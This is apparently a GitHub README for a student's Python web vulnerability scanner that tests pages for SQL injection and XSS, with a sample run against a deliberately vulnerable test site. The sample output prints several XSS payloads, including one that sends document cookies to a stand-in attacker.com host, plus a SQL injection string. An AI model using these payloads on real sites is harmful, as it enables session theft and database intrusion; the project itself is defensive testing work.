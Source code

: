 # CODTECH_ADVANCED_TASK_2
# Web Vulnerability Scanner

## Personal information 
- Name : Premkumar Soni
- Company : CODTECH IT SOLUTIONS PVT.LTD
- ID : CT08DBS
- Domain : Cyber Security & Ethical Hacking
- Duration: 20th Dec 2024 To 20th Jan 2025
- Mentor : Neela Santhosh kumar

## Overview

This is a simple Python-based tool designed to scan websites for common vulnerabilities, including SQL injection and Cross-Site Scripting (XSS). The tool uses various techniques to detect these vulnerabilities and generates a detailed report. It utilizes the `requests`, `BeautifulSoup`, and `pyfiglet` libraries for web scraping and logging purposes.

## Features

- **SQL Injection Detection**: Identifies SQL injection vulnerabilities by testing various SQL payloads in URL parameters.
- **Cross-Site Scripting (XSS) Detection**: Detects both reflected and stored XSS vulnerabilities by injecting common XSS payloads.
- **Form Scanning**: Scans HTML forms for potential XSS vulnerabilities.
- **Multi-Page Scanning**: The scanner follows links within the same domain to detect vulnerabilities across multiple pages.
- **Logging and Reporting**: Generates a detailed vulnerability report, including the type, severity, and evidence for each identified vulnerability.

## Installation

#### 1. Clone The repository : 

```bash 
git clone https://github.com/hipremsoni/CODTECH_ADVANCED_TASK_2.git
cd CODTECH_ADVANCED_TASK_2
```

#### 2. Install the required Python packages using `pip` :

```bash 
pip install -r requirements.txt 
```

#### 3. Run The Tool :
```bash 
python3 web_vuln_scanner.py 
```

### Prerequisites

- Python 3.x
- Pip (Python package installer)

The `requirements.txt` file should include:

```text
requests
beautifulsoup4
pyfiglet
colorama
```

## Usage

### Running the Scanner

1. Run the script:

```bash
python web_vuln_scanner.py
```

2. You will be prompted to enter the target website URL (e.g., `http://example.com`).

3. The scanner will analyze the website and its links, testing for common vulnerabilities such as SQL injection and XSS.

4. After the scan completes, a detailed report will be displayed on the terminal.
### Screenshots
![image-1](https://github.com/user-attachments/assets/f1acb96d-21ee-486d-a02c-cae57504666d)
![image-2](https://github.com/user-attachments/assets/84699664-a003-48ab-a4cf-105b23fa8d24)

### Example


```bash
__        __   _      __     __     _       
\ \      / /__| |__   \ \   / /   _| |_ __
 \ \ /\ / / _ \ '_ \   \ \ / / | | | | '_ \
  \ V  V /  __/ |_) |   \ V /| |_| | | | | |
   \_/\_/ \___|_.__/     \_/  \__,_|_|_| |_|

 ____
/ ___|  ___ __ _ _ __  _ __   ___ _ __
\___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
 ___) | (_| (_| | | | | | | |  __/ |
|____/ \___\__,_|_| |_|_| |_|\___|_|


- Created by Premkumar Soni
Welcome to the Web Application Vulnerability Scanner!

Enter the target website URL (e.g., http://example.com): http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com/privacy.php
2025-01-15 11:18:28,918 - ERROR - Error scanning http://testphp.vulnweb.com/privacy.php: 404 Client Error: Not Found for url: http://testphp.vulnweb.com/privacy.php
[Scanning] http://testphp.vulnweb.com/guestbook.php
[Scanning] http://testphp.vulnweb.com/userinfo.php
[Scanning] http://testphp.vulnweb.com/disclaimer.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/
[Scanning] http://testphp.vulnweb.com/categories.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/
[Scanning] http://testphp.vulnweb.com/login.php
[Scanning] http://testphp.vulnweb.com/listproducts.php?cat=2
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
[SQL Injection Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1

 ____                    ____                       _
/ ___|  ___ __ _ _ __   |  _ \ ___ _ __   ___  _ __| |_
\___ \ / __/ _` | '_ \  | |_) / _ \ '_ \ / _ \| '__| __|
 ___) | (_| (_| | | | | |  _ <  __/ |_) | (_) | |  | |_
|____/ \___\__,_|_| |_| |_| \_\___| .__/ \___/|_|   \__|
                                  |_|

Target: http://testphp.vulnweb.com
Scan Date: 2025-01-15T11:18:48.820498
Pages Scanned: 10

Vulnerabilities Found:

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
---

Type: SQL Injection
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: Critical
Description: SQL Injection vulnerability detected.
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1
```

## Acknowledgements

- `requests` for making HTTP requests.
- `BeautifulSoup` for parsing HTML.
- `pyfiglet` for generating ASCII art.
- `colorama` for adding color to terminal output.

---

### Notes

- The tool is intended for educational purposes only. Use it responsibly and only on websites you own or have explicit permission to test.
- This tool is a basic implementation of a web vulnerability scanner and can be extended with additional vulnerability detection techniques.

---
## Author 
- Premkumar soni


